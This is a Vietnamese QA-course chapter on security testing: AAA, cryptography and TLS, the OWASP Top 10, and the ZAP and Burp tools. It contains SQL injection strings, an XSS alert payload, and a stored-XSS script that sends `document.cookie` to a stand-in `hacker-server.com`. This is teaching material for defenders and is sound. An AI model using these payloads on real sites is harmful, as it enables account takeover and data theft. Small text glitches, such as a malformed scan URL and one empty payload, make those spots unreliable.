





# 📁 11. Advanced Testing

*Mục tiêu: Mở rộng năng lực chuyên môn từ kiểm thử chức năng thông thường sang các mảng kỹ thuật chuyên sâu cao cấp bao gồm Kiểm thử Bảo mật (Security), Kỹ nghệ Hiệu năng (Performance), Cơ chế vận hành Di động (Mobile Mechanics) và Kiểm thử Hệ thống phân tán/Điện toán đám mây nhằm toàn diện hóa tư duy của một QA Expert thực chiến.*

# **11.1. Security Testing Fundamentals**

## 📌 Mục lục nội bộ (Chặng 11)

- [ ] [**11.1. Security Testing Fundamentals**](./1_SecurityTesting.md)
  - [ ] [11.1.1. AAA Framework: Authentication, Authorization, Access Control](#1111-aaa-framework-authentication-authorization-access-control)
  - [ ] [11.1.2. Cryptography basics: Encryption, Hashing & HTTPS / TLS](#1112-cryptography-basics-encryption-hashing--https--tls)
  - [ ] [11.1.3. OWASP Top 10 Vulnerabilities (SQLi, XSS, CSRF, IDOR)](#1113-owasp-top-10-vulnerabilities-sqli-xss-csrf-idor)
  - [ ] [11.1.4. Security Auditing Tools: OWASP ZAP & Burp Suite Suite](#1114-security-auditing-tools-owasp-zap--burp-suite-suite)
- [ ] [**11.2. Performance Testing Engineering**](./2_PerformanceTesting.md)
- [ ] [**11.3. Mobile Testing Mechanics**](./3_MobileTesting.md)
- [ ] [**11.4. Distributed Systems, Contract & Cloud Testing**](./4_DistributedSystems.md)

---

## 🗺️ Bản đồ Tiến trình Phân rã Các Tầng Kiểm thử Nâng cao

Sơ đồ đơn sắc dưới đây mô tả lộ trình tiếp cận kiểm thử phi chức năng và hệ thống phân tán, giúp QA định vị chính xác khu vực cần cô lập và đánh giá rủi ro từ hạ tầng đến ứng dụng:



---

# 11.1.1. AAA Framework: Authentication, Authorization, Access Control

Mô hình AAA (Authentication, Authorization, Accounting) là nền tảng cốt lõi của an ninh bảo mật hệ thống. Đối với một Kỹ sư QA, việc làm chủ kiểm thử mô hình AAA giúp xác định các lỗ hổng nghiêm trọng liên quan đến đặc quyền, ngăn chặn hành vi giả mạo danh tính, truy cập trái phép dữ liệu và đảm bảo mọi hành vi thao tác của người dùng đều để lại dấu vết kiểm toán (Audit Trail).

## ⚙️ Bản chất chuyên sâu về cấu trúc ba tầng của Mô hình AAA

Mô hình AAA phân rã hệ thống an ninh thành ba rào chắn kỹ thuật độc lập nhưng phụ thuộc tuần tự theo mô hình tuyến tính thời gian:

1. **Authentication (Xác thực - Bạn là ai?):** Quá trình hệ thống kiểm tra và xác nhận danh tính của một thực thể (Người dùng hoặc Dịch vụ API) thông qua các yếu tố như Mật khẩu, JWT Token, hoặc Mã OTP.
2. **Authorization (Cấp phép - Bạn được làm gì?):** Diễn ra ngay sau khi xác thực thành công. Hệ thống đối chiếu định danh với ma trận phân quyền (RBAC/ABAC) để quyết định thực thể có quyền đọc, ghi, hoặc xóa tài nguyên được yêu cầu hay không.
3. **Accounting / Audit (Ghi nhật ký - Bạn đã làm những gì?):** Quá trình hệ thống ghi lại toàn bộ lịch sử hoạt động, thời gian đăng nhập, các lệnh API đã gọi và tài nguyên đã tiêu thụ để phục vụ công tác điều tra sự cố rủi ro an ninh.



---

## 📊 Ma trận Kiểm thử AAA & Mô hình Phân rã Lỗ hổng cho QA

Dưới đây là bảng phân rã chi tiết ba tầng cấu trúc AAA, vai trò chiến lược của QA thực chiến và các lỗi an ninh bảo mật (Security Defects) phát sinh trong thực tế:

| Tầng Bảo mật AAA | Trọng tâm QA Focus (Kịch bản kiểm thử biên) | Lý do Kỹ thuật chuyên sâu | Defect thực tế (Lỗ hổng bảo mật & Cách sửa) |
| :--- | :--- | :--- | :--- |
| **Authentication** <br>*(Xác thực)* | Kiểm thử cơ chế brute-force khóa tài khoản, xác thực đa yếu tố (MFA bypass), độ dài mật khẩu và rò rỉ token qua URL. | Đảm bảo hệ thống quản lý phiên (Session Management) và định danh đầu vào không bị bẻ khóa bởi hacker. | **Lỗi bỏ qua bước xác thực (MFA Bypass):** Người dùng đổi trực tiếp URL trên trình duyệt để lọt qua trang nhập mã OTP. <br>*Cách sửa:* Server bắt buộc phải kiểm tra trạng thái session tại từng endpoint API trước khi trả dữ liệu. |
| **Authorization** <br>*(Cấp phép)* | Kiểm thử leo thang đặc quyền ngang (Horizontal Privilege Escalation) và leo thang đặc quyền dọc (Vertical Privilege Escalation). | Xác thực ma trận phân quyền được kiểm tra chặt chẽ ở tầng Backend, không dựa vào việc ẩn/hiển thị nút bấm ngoài UI. | **Lỗ hổng IDOR (Insecure Direct Object Reference):** Tester đăng nhập tài khoản User A, thay đổi tham số `ID=100` thành `ID=101` trên API để xem hóa đơn của User B. <br>*Cách sửa:* Áp dụng cơ chế kiểm tra quyền sở hữu bản ghi của tài khoản đang gọi API. |
| **Accounting** <br>*(Ghi nhật ký)* | Kiểm thử tính toàn vẹn của tệp Log, kiểm tra xem hệ thống có vô tình ghi lại mật khẩu thuần (Plaintext) hoặc mã CVV thẻ tín dụng vào log không. | Đảm bảo tệp log cung cấp đầy đủ thông tin để truy vết khi có sự cố và tuân thủ các tiêu chuẩn bảo mật dữ liệu khách hàng (PCI-DSS/GDPR). | **Rò rỉ dữ liệu nhạy cảm vào Log (Log Injection / Data Leak):** Hệ thống ghi lại toàn bộ chuỗi JSON Payload bao gồm cả mật khẩu của người dùng vào tệp `app.log`. <br>*Cách sửa:* Cấu hình bộ lọc mã hóa (Masking) tự động che mờ các trường dữ liệu nhạy cảm trước khi ghi log. |

---

## 💡 Ví dụ thực tế liên hoàn: Quy trình Kiểm thử Leo thang Đặc quyền của QA

Hãy tưởng tượng bạn đang kiểm thử an ninh bảo mật cho một hệ thống quản lý nhân sự (HRM) chia làm hai nhóm quyền: `Employee` (Chỉ được xem bảng lương cá nhân) và `HR_Admin` (Được sửa lương toàn công ty).

1. **Kiểm thử leo thang đặc quyền dọc (Vertical Privilege Escalation Test):**
   * Bạn đăng nhập vào hệ thống bằng tài khoản quyền `Employee`.
   * Giao diện UI hoàn toàn sạch sẽ, nút "Chỉnh sửa lương" đã bị ẩn đúng thiết kế.
   * Bạn mở Network Panel của Chrome DevTools lên, bắt gói tin API khi một Admin thực hiện sửa lương: `PUT /api/v1/salary/update`.
   * Bạn dùng Postman giả lập lại lệnh `PUT` đó, giữ nguyên Token của tài khoản `Employee` nhưng truyền body thay đổi số tiền lương $\rightarrow$ Hệ thống trả về kết quả thành công và cơ sở dữ liệu bị cập nhật.
   * *Kết luận của QA:* Hệ thống dính lỗ hổng bảo mật nghiêm trọng do Backend chỉ Verify Authentication (đúng Token) mà quên không Verify Authorization (kiểm tra tài khoản này có quyền Admin hay không).

2. **Kiểm thử ghi nhật ký kiểm toán (Accounting Validation):**
   * Ngay sau khi phát hiện lỗi trên, bạn truy cập vào máy chủ Staging để mở tệp log kiểm tra: `tail -n 20 /var/log/hrm/audit.log`.
   * Bạn phát hiện ra dòng log ghi nhận: `[2026-09-02] User Employee_01 updated salary record of Admin`.
   * *Kết luận của QA:* Tầng Accounting hoạt động tốt vì đã lưu lại hành vi bất thường, giúp đội ngũ an ninh phát hiện ra vụ xâm nhập dữ liệu sớm để xử lý.

---

> ⚠️ **NGUYÊN LÝ BẤT BIẾN:** Tuyệt đối không bao giờ được phép tin tưởng vào bất kỳ cơ chế kiểm soát an ninh hoặc phân quyền nào được thực hiện hoàn toàn ở phía Client-side (nhũ ẩn nút bằng CSS, chặn nhập form bằng thuộc tính `disabled` của HTML, hoặc validate quyền bằng JavaScript của Trình duyệt). Mọi chốt chặn bảo mật AAA bắt buộc phải được thực thi, kiểm tra và xác thực lại một cách nghiêm ngặt tại tầng Server-side độc lập cho từng yêu cầu API đơn lẻ.

---

📚 **References**
* *ISTQB® Certified Tester Advanced Level (CTAL) Technical Test Analyst Syllabus* - Section 4.2.1: *Security Testing (Authentication, Authorization, Access Control)*.
* *OWASP Top 10 Vulnerabilities Standard* - Broken Object Level Authorization (BOLA/IDOR) & Broken Authentication.
* *ISO/IEC 27002:2022 Code of practice for information security controls* - Control 8.2: *Privileged access rights* & Control 8.15: *Logging*.

# 11.1.2. Cryptography basics: Encryption, Hashing & HTTPS / TLS

Hiểu biết về nền tảng mật mã học (Cryptography) giúp Kỹ sư QA xác định chính xác các rủi ro liên quan đến rò rỉ dữ liệu nhạy cảm trên đường truyền (Data-in-Transit) hoặc trong cơ sở dữ liệu (Data-at-Rest). Trọng tâm của phần này là phân biệt và kiểm thử các cơ chế Mã hóa (Encryption), Băm dữ liệu (Hashing) và chứng chỉ bảo mật HTTPS/TLS.

## ⚙️ Bản chất chuyên sâu về Cơ chế Mật mã học và Giao thức Bảo mật

An ninh dữ liệu dựa trên việc biến đổi thông tin từ dạng văn bản thuần (Plaintext) sang dạng văn bản mã hóa (Ciphertext) hoặc chuỗi định danh không thể đảo ngược, vận hành qua 3 cơ chế kiến trúc:

1. **Encryption (Mã hóa - Khả nghịch):** Quá trình chuyển đổi dữ liệu có thể giải mã ngược lại bằng khóa (Key). Gồm hai loại:
   * *Mã hóa đối xứng (Symmetric Encryption - AES):* Dùng chung 1 khóa cho cả mã hóa và giải mã. Tốc độ nhanh nhưng rủi ro lộ khóa cao.
   * *Mã hóa bất đối xứng (Asymmetric Encryption - RSA):* Dùng một cặp khóa. Khóa công khai (Public Key) để mã hóa và Khóa bí mật (Private Key) để giải mã.
2. **Hashing (Băm dữ liệu - Bất khả nghịch):** Quá trình chuyển đổi dữ liệu thành một chuỗi ký tự có độ dài cố định (SHA-256, MD5) và **không thể giải mã ngược lại**. Thường dùng để lưu trữ mật khẩu hoặc kiểm tra tính toàn vẹn dữ liệu.
3. **HTTPS / TLS (Giao thức truyền tải bảo mật):** Kết hợp mã hóa đối xứng và bất đối xứng để bảo vệ gói tin API/Web di chuyển giữa Client và Server, ngăn chặn tấn công nghe lén (Man-in-the-Middle).



---

## 📊 Ma trận Kiểm thử Mật mã học & Mô hình Cô lập Lỗi Dữ liệu cho QA

Dưới đây là bảng phân rã chi tiết các kỹ thuật mật mã, trọng tâm kịch bản test biên của QA thực chiến và các lỗ hổng bảo mật phát sinh:

| Kỹ thuật Mật mã | Trọng tâm QA Focus (Kịch bản kiểm thử) | Lý do Kỹ thuật chuyên sâu | Defect thực tế (Lỗ hổng bảo mật & Cách sửa) |
| :--- | :--- | :--- | :--- |
| **Password Storage** <br>*(Lưu trữ mật khẩu)* | Kiểm tra bảng dữ liệu (Database) để xác nhận mật khẩu không bị lưu dưới dạng văn bản thuần hoặc hàm băm yếu (MD5/SHA1). | Các thuật toán băm cũ như MD5 có tốc độ xử lý quá nhanh, dễ bị tin tặc bẻ khóa bằng kỹ thuật bảng tra cứu (Rainbow Table). | **Lưu mật khẩu yếu (Weak Hashing/Plaintext):** Mật khẩu người dùng bị lộ nguyên bản khi DB bị rò rỉ. <br>*Cách sửa:* Bắt buộc dùng thuật toán băm hiện đại như `Bcrypt` hoặc `Argon2` kết hợp kỹ thuật trộn chuỗi ngẫu nhiên (Salting). |
| **Data-in-Transit** <br>*(Dữ liệu đường truyền)* | Sử dụng các công cụ bắt gói tin (Burp Suite, OWASP ZAP) để kiểm tra xem dữ liệu nhạy cảm có bị truyền qua HTTP thuần hoặc dính lỗi TLS cũ không. | Giao thức HTTP gửi dữ liệu dạng Cleartext, cho phép bất kỳ ai nằm chung mạng nội bộ (Wi-Fi công cộng) đều có thể đọc trọn vẹn gói tin. | **Rò rỉ dữ liệu qua HTTP (Unencrypted Channel):** Token đăng nhập hoặc số thẻ tín dụng hiển thị rõ ràng trong phần Header/Body của gói tin. <br>*Cách sửa:* Cấu hình chuyển hướng tự động 100% sang HTTPS và áp dụng chính sách `HSTS`. |
| **Payload Encryption** <br>*(Mã hóa gói tin API)* | Kiểm thử biên bằng cách sửa đổi một ký tự trong chuỗi mã hóa payload gửi lên để xác minh tính năng kiểm tra lỗi của Backend. | Đảm bảo các giao dịch tài chính nhạy cảm được bảo vệ hai lớp, ngăn chặn việc can thiệp chỉnh sửa số tiền hoặc thông tin tài khoản. | **Thiếu kiểm tra tính toàn vẹn (Integrity Failure):** Server vẫn xử lý đơn hàng khi chuỗi mã hóa bị chỉnh sửa hoặc cắt ngắn. <br>*Cách sửa:* Sử dụng các phương thức mã hóa có kèm cơ chế xác thực thông điệp (AEAD như AES-GCM). |

---

## 💡 Ví dụ thực tế liên hoàn: Luồng Kiểm thử Bảo mật Chứng chỉ TLS/HTTPS của QA

Hãy tưởng tượng bạn đang kiểm thử một ứng dụng Mobile Banking kết nối tới Server Staging tại địa chỉ `https://bank.com`.

1. **Giai đoạn Kiểm tra Giao thức & Phiên bản (Protocol Review):**
   * Bạn chạy lệnh terminal để quét cấu hình TLS của máy chủ:
     ```bash
     nmap --script ssl-enum-ciphers -p 443 ://bank.com
     ```
   * *Phát hiện lỗi kỹ thuật:* Kết quả trả về cho thấy máy chủ vẫn chấp nhận kết nối từ các phiên bản lỗi thời `TLS 1.0` và `TLS 1.1`.
   * *Hành động của QA:* Báo cáo lỗi an ninh bảo mật cấp độ Medium. Yêu cầu đội ngũ DevOps cấu hình máy chủ chỉ chấp nhận tối thiểu `TLS 1.2` và ưu tiên `TLS 1.3` để loại bỏ các lỗ hổng mật mã học cũ.

2. **Giai đoạn Kiểm thử Bắt gói tin (Man-in-the-Middle Test):**
   * Bạn thiết lập proxy Burp Suite trên máy tính và cài chứng chỉ của Burp vào điện thoại để chặn gói tin từ App gửi lên.
   * *Tình huống lý tưởng (Secure):* Ứng dụng tích hợp cơ chế **SSL Pinning** sẽ lập tức nhận diện chứng chỉ Burp Suite là giả mạo và chủ động ngắt kết nối, App không cho phép đăng nhập công việc.
   * *Tình huống dính Defect (Vulnerable):* Ứng dụng vẫn chạy bình thường và bạn đọc được toàn bộ Mật khẩu, mã OTP hiển thị rõ ràng trên màn hình Burp Suite $\rightarrow$ Bạn lập tức Log Bug lỗi nghiêm trọng vì hệ thống thiếu cơ chế bảo vệ SSL Pinning trên môi trường Mobile.

---

> ⚠️ **NGUYÊN LÝ BẤT BIẾN:** Tuyệt đối không bao giờ được phép tin tưởng hoặc tự lập trình ra một thuật toán mã hóa hoặc thuật toán băm tùy biến riêng (Custom Cryptography) cho dự án. Các thuật toán tự chế luôn chứa đựng các lỗ hổng logic toán học nghiêm trọng mà lập trình viên không thể lường trước. Bạn bắt buộc phải sử dụng các thư viện mật mã học đã được kiểm định, chuẩn hóa quốc tế và thừa nhận rộng rãi bởi cộng đồng an ninh toàn cầu (như OpenSSL, Web Crypto API).

---

📚 **References**
* *ISTQB® Certified Tester Advanced Level (CTAL) Technical Test Analyst Syllabus* - Section 4.2.6: *Security Testing (Data Integrity and Cryptography)*.
* *OWASP Top 10 Vulnerabilities Standard* - Cryptographic Failures (Đứng vị trí số #2 về mức độ rủi ro).
* *NIST Special Publication 800-132* - *Recommendation for Password-Based Key Derivation*.

# 11.1.3. OWASP Top 10 Vulnerabilities (SQLi, XSS, CSRF, IDOR)

Bảng xếp hạng OWASP Top 10 là bộ quy chuẩn tối cao về an ninh bảo mật ứng dụng web trên toàn thế giới. Đối với một Kỹ sư QA, việc hiểu rõ bản chất cơ chế tấn công và phương pháp kiểm thử các lỗ hổng kinhдени như SQL Injection (SQLi), Cross-Site Scripting (XSS), Cross-Site Request Forgery (CSRF) và Insecure Direct Object Reference (IDOR) giúp chủ động ngăn chặn các rủi ro phá hoại, rò rỉ dữ liệu hoặc chiếm quyền điều khiển hệ thống ngay từ tầng kiểm thử hộp đen.

## ⚙️ Bản chất chuyên sâu về Cơ chế Xâm nhập của Lỗ hổng OWASP

Các lỗ hổng bảo mật phần lớn phát sinh do Backend thiếu cơ chế khử trùng dữ liệu đầu vào (Input Sanitization) hoặc buông lỏng kiểm tra quyền hạn ở tầng điều phối. Cơ chế vận hành của 4 lỗ hổng cốt lõi bao gồm:

1. **SQL Injection (A03:2021-Injection):** Hacker chèn các đoạn mã truy vấn SQL độc hại vào các trường nhập liệu (như ô tìm kiếm, form login). Nếu Backend cộng chuỗi SQL trực tiếp, đoạn mã này sẽ thay đổi cấu trúc câu lệnh gốc, cho phép bypass xác thực hoặc đánh cắp toàn bộ DB.
2. **Cross-Site Scripting (A03:2021-Injection/XSS):** Hacker tiêm mã script (JavaScript) độc hại vào ứng dụng. Khi người dùng khác truy cập trang web, trình duyệt của họ sẽ tự động thực thi đoạn script này, dẫn đến nguy cơ bị đánh cắp Cookie, Session Token hoặc chiếm quyền tài khoản.
3. **Cross-Site Request Forgery (A01:2021-Broken Access Control/CSRF):** Kỹ thuật ép trình duyệt của nạn nhân (vốn đã đăng nhập vào web an toàn) tự động gửi các yêu cầu giả mạo (đổi mật khẩu, chuyển tiền) tới web đó khi nạn nhân vô tình truy cập một trang web độc hại khác.
4. **Insecure Direct Object Reference (A01:2021-IDOR):** Lỗi thiết kế xảy ra khi ứng dụng sử dụng trực tiếp định danh của đối tượng (như `id=1001`) trong URL hoặc API mà không kiểm tra xem tài khoản đang đăng nhập có thực sự sở hữu hoặc có quyền xem đối tượng đó hay không.



---

## 📊 Ma trận Kiểm thử OWASP & Mô hình Vạch trần Lỗ hổng thực chiến

Dưới đây là bảng phân rã chi tiết về payload kiểm thử, trọng tâm QA thực chiến và các defect an ninh bảo mật phát sinh:

| Loại Lỗ hổng OWASP | Payload / Kịch bản Kiểm thử Biên của QA | QA Focus (Trọng tâm kỹ thuật) | Defect thực tế (Lỗ hổng hệ thống & Cách sửa) |
| :--- | :--- | :--- | :--- |
| **SQL Injection (SQLi)** | Nhập chuỗi `' OR 1=1 --` hoặc `' UNION SELECT NULL, username, password FROM users --` vào form đăng nhập/tìm kiếm. | Kiểm tra xem hệ thống có trả về lỗi cú pháp SQL thô (Error-based) hoặc tự động cho đăng nhập mà không cần mật khẩu không. | **Lỗi rò rỉ dữ liệu qua câu lệnh thô:** Câu lệnh SQL thực thi trực tiếp chuỗi nhập vào. <br>*Cách sửa:* Sử dụng `Parameterized Queries` (PreparedStatement) để cô lập dữ liệu nhập vào như một chuỗi text thuần túy. |
| **Cross-Site Scripting (XSS)** | Nhập payload `<script>alert(document.cookie)</script>` hoặc `` vào form bình luận/profile. | Kiểm tra xem trình duyệt có tự động bật lên hộp thoại alert hiển thị Cookie hay không (đặc biệt là Stored XSS lưu vào DB). | **Mã script thực thi tự động ngoài UI:** Ứng dụng hiển thị nguyên bản thẻ script mà không mã hóa. <br>*Cách sửa:* Thực hiện `Context-aware HTML Encoding` (chuyển `<` thành `&lt;`, `>` thành `&gt;`) trước khi render ra giao diện. |
| **Cross-Site Request Forgery (CSRF)** | Giả lập một trang HTML trống chứa form tự động submit (Auto-submit form) gửi yêu cầu `POST /api/account/update-password` tới server. | Kiểm tra xem Server có chấp nhận xử lý gói tin đổi mật khẩu từ một nguồn không xác định (Cross-Origin) gửi tới hay không. | **Chấp nhận gói tin bên thứ ba:** Session cookie tự động đính kèm theo cơ chế mặc định của trình duyệt mà không kiểm tra nguồn gốc. <br>*Cách sửa:* Tích hợp cơ chế kiểm tra `Anti-CSRF Token` duy nhất cho mỗi phiên làm việc hoặc cấu hình thuộc tính cookie `SameSite=Strict`. |
| **Insecure Direct Object Reference (IDOR)** | Đăng nhập tài khoản User 1 (ID cuống hóa đơn là 500), dùng Postman hoặc sửa URL trực tiếp thành `https://app.com`. | Xác minh Backend có chặn quyền truy cập và trả về mã lỗi HTTP 403 Forbidden hay không. | **Rò rỉ thông tin cá nhân diện rộng:** Tester xem được toàn bộ thông tin của khách hàng khác bằng cách tăng dần số ID. <br>*Cách sửa:* Thực hiện kiểm tra quyền sở hữu (Access Control Check) ở tầng ứng dụng hoặc đổi số ID tuần tự sang chuỗi mã hóa ngẫu nhiên không thể đoán trước (`UUID`). |

---

## 💡 Ví dụ thực tế liên hoàn: Quy trình Săn lỗi XSS (Cross-Site Scripting) của QA

Hãy tưởng tượng bạn đang kiểm thử một ứng dụng Mạng xã hội nội bộ doanh nghiệp tại tính năng "Đăng bài viết mới".

1. **Giai đoạn Tiêm nhiễm Payload (Stored XSS Testing):**
   * Tại ô nhập nội dung bài viết, thay vì nhập chữ thông thường, bạn nhập đoạn mã JavaScript nhằm lấy cắp token đăng nhập:
     ```html
     <script>fetch('http://hacker-server.com' + document.cookie)</script>
     ```
   * Bạn bấm nút "Đăng bài". Bài viết được lưu thành công vào Database của hệ thống Staging mà không gặp bất kỳ cảnh báo nào từ Backend.

2. **Giai đoạn Kích nổ và Cô lập Lỗi (Exploitation Validation):**
   * Bạn đăng xuất và dùng một máy tính khác đăng nhập bằng tài khoản của Tổng Giám Đốc (CEO).
   * Bạn điều hướng tài khoản CEO vào trang chủ - nơi hiển thị danh sách bài viết mới nhất (bao gồm bài viết bạn vừa đăng).
   * *Kịch bản dính lỗi nghiêm trọng (Defect):* Màn hình của CEO không hiện dòng chữ nào, nhưng ở tab Network của trình duyệt lập tức xuất hiện một gói tin chạy ngầm gửi đi từ máy CEO hướng thẳng về `hacker-server.com` kèm theo toàn bộ chuỗi Cookie quyền lực của CEO.
   * *Hành động của QA:* Lập tức cô lập lỗi, chụp ảnh màn hình bằng chứng, Log Bug mức độ **CRITICAL** (Nguy hiểm tối cao), đồng thời yêu cầu đội ngũ phát triển gỡ bài viết đó ra khỏi DB ngay lập tức để bảo vệ môi trường thử nghiệm.

---

> ⚠️ **NGUYÊN LÝ BẤT BIẾN:** Tuyệt đối không bao giờ được phép thực hiện việc lọc từ khóa độc hại theo cơ chế danh sách đen (Blacklisting - ví dụ: viết code để tìm và xóa chữ `script` hoặc chữ `SELECT`). Tin tặc luôn có vô vàn cách biến đổi cú pháp (như viết hoa xen kẽ `<sCrIpT>`, sử dụng bảng mã Hex, hoặc chèn thẻ ảnh `onerror`) để vượt qua bộ lọc một cách dễ dàng. Bạn bắt buộc phải áp dụng cơ chế danh sách trắng (Whitelisting) và cấu hình Content Security Policy (CSP) chặt chẽ trên máy chủ.

---

📚 **References**
* *ISTQB® Certified Tester Advanced Level (CTAL) Technical Test Analyst Syllabus* - Section 4.2.1: *Security Testing Standards (OWASP Top 10)*.
* *OWASP Top 10:2021 Standard* - A01:2021-Broken Access Control & A03:2021-Injection.
* *ISO/IEC 29147:2018 Information technology — Security techniques — Vulnerability disclosure*.

# 11.1.4. Security Auditing Tools: OWASP ZAP & Burp Suite

Việc chuyển đổi từ kiểm thử bảo mật thủ công sang kiểm thử tự động và bán tự động đòi hỏi Kỹ sư QA phải làm chủ các công cụ quét chuyên dụng. Hai bộ công cụ hàng đầu trong ngành kiểm toán an ninh hiện nay là OWASP ZAP (Zed Attack Proxy - mã nguồn mở, tối ưu cho tự động hóa CI/CD) và Burp Suite Professional (Tiêu chuẩn công nghiệp dành cho chuyên gia kiểm thử xâm nhập chuyên sâu).

## ⚙️ Bản chất chuyên sâu về Cơ chế Hoạt động của Security Proxy Tools

Cả OWASP ZAP và Burp Suite về bản chất đều hoạt động dựa trên kiến trúc **Chặn dòng dữ liệu (Interception Proxy)**. Công cụ đóng vai trò làm trung gian đứng giữa Trình duyệt (Client) và Máy chủ (Server), tuân thủ nghiêm ngặt cơ chế điều phối qua hai hình thức quét dữ liệu:

1. **Passive Scanning (Quét thụ động):** Công cụ chỉ phân tích các gói tin Request và Response di chuyển qua lại một cách thầm lặng mà không hề chỉnh sửa hay chèn thêm mã độc. Hình thức này giúp phát hiện nhanh các lỗi cấu hình sai như: Thiếu cờ bảo mật của Cookie (`Secure`, `HttpOnly`), lỗi header an toàn (`X-Frame-Options`, `CSP`), hoặc rò rỉ mã lỗi hệ thống thô ngoài giao diện.
2. **Active Scanning (Quét chủ động):** Công cụ chủ động khởi tạo và phát tán hàng loạt gói tin tấn công thử nghiệm (Fuzzing/Attacking Payloads) hướng thẳng vào các tham số của API/Form. Quá trình này mô phỏng hành vi của tin tặc để tìm ra các lỗ hổng Injection, XSS, hoặc IDOR bằng cách phân tích phản hồi khác biệt từ Server.



---

## 📊 Ma trận So sánh Kỹ thuật Công cụ Bảo mật & Mô hình Ứng dụng cho QA

Dưới đây là bảng phân rã chi tiết về cơ chế vận hành, tính năng lõi, vai trò thực chiến của QA và các lỗi hạ tầng phát sinh khi cấu hình công cụ:

| Đặc tính Kỹ thuật | OWASP ZAP (Open-Source / Automation) | Burp Suite Suite (Professional Auditor) | QA Focus (Trọng tâm thực chiến) | Defect thực tế (Lỗi phát sinh & Cách sửa) |
| :--- | :--- | :--- | :--- | :--- |
| **Mục tiêu & Tích hợp** | Miễn phí hoàn toàn. Thiết kế tối ưu cho luồng chạy tự động hóa, cung cấp giao diện dòng lệnh (CLI) và bộ API mạnh mẽ. | Thương mại (Trả phí). Thiết kế giao diện đồ họa (UI) trực quan cao phục vụ việc rà quét thủ công và bóc tách luồng chuyên sâu. | QA sử dụng OWASP ZAP làm chốt chặn an ninh tự động trong đường ống CI/CD. Sử dụng Burp Suite để điều tra, tái tạo và đào sâu các lỗi bảo mật phức tạp. | **Bỏ sót lỗ hổng góc khuất (Scanner Blindspot):** Công cụ quét tự động không thể vượt qua các form đăng nhập có mã OTP Captcha. <br>*Cách sửa:* QA cấu hình phiên đăng nhập trước bằng tay (Session Handling) rồi mới kích hoạt quét. |
